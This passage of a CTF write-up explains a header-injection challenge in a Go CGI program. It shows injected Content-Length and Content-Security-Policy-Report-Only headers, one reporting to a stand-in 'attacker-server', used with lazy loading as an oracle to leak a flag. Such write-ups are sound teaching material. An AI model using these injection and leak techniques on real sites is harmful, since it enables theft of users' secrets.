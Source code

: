 And that seems to be the case :)

Flag: `SECCON{**MAY**_in_rfc8259_8.1}`

FYI: RFC 8259 8.1 specifies:

> Implementations MUST NOT add a byte order mark (U+FEFF) to the
> beginning of a networked-transmitted JSON text.  In the interests of
> interoperability, implementations that parse JSON texts **MAY** ignore
> the presence of a byte order mark rather than treating it as an
> error.


## cgi-2023

> CGI is one of the lost technologies.

TL;DR: Attacker-controlled `Content-Security-Policy-Report-Only` header + Lazy-loading iframe + Scroll to Text Fragment

It's a simple CGI program written in Go, but with very strict CSP.

<details><summary>The challenge source codes</summary></details>

In short:

- It's a simple CGI program which shows the flag to the bot.
- It prints the query value, which makes header/content injection possible.
- However Apache httpd sets the simple yet strict CSP: `default-src 'none';`.

Because of the CSP, the things we can do are very limited. Nevertheless, since we can inject headers, we can think of some ideas.

First, we can inject the `Content-Length` header to truncate the content, i.e. the flag.
For example, if you inject the header:

```
Content-Length: 7
```

, the user (in this case, bot) will see:

```
SECCON{
```

, which is the first seven characters of the flag. This will make some attacks easier.

Also, we can inject the `Content-Security-Policy-Report-Only` header, which can be used as an oracle.
For example, if you inject the header:

```
Content-Security-Policy-Report-Only: default-src 'none'; report-uri http://attacker-server
```

, loading most external resources will be reported to the attacker's server.

This technique allows us to [utilize lazy-loading content as an oracle](https://book.hacktricks.xyz/pentesting-web/xs-search#image-lazy-loading).
Well, the browser will send the CSP violation report instead of loading the content, but it works anyway!
